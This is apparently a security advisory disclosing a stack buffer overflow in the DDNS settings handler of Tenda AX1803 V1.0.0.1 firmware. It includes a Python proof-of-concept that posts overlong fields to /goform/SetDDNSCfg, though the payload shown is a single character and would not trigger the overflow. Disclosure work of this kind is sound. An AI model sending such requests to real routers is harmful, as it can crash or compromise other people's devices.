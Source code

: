 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3421.html

## Affected version

AX1803 V1.0.0.1

## Vulnerability details

The Tenda AX1803 V1.0.0.1 firmware has a stack overflow vulnerability in the `formSetSysToolDDNS` function. The `v3, v4, v5, v6` variable receives the `serverName, ddnsUser, ddnsPwd, ddnsDomain` parameter from a POST request. However, since the user can control the input of `serverName, ddnsUser, ddnsPwd, ddnsDomain`, the statement `strcpy` can cause a buffer overflow. The user-provided `serverName, ddnsUser, ddnsPwd, ddnsDomain` can exceed the capacity of the `s2, v19, v18, v17` array, triggering this security vulnerability.

![image-20240418171524535](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240418171524535.png)

![image-20240418171509126](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240418171509126.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetDDNSCfg"
payload = "a"*1

data = {"serverName": payload}
# data = {"ddnsUser": payload}
# data = {"ddnsPwd": payload}
# data = {"ddnsDomain": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240415125733742](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240415125733742.png)
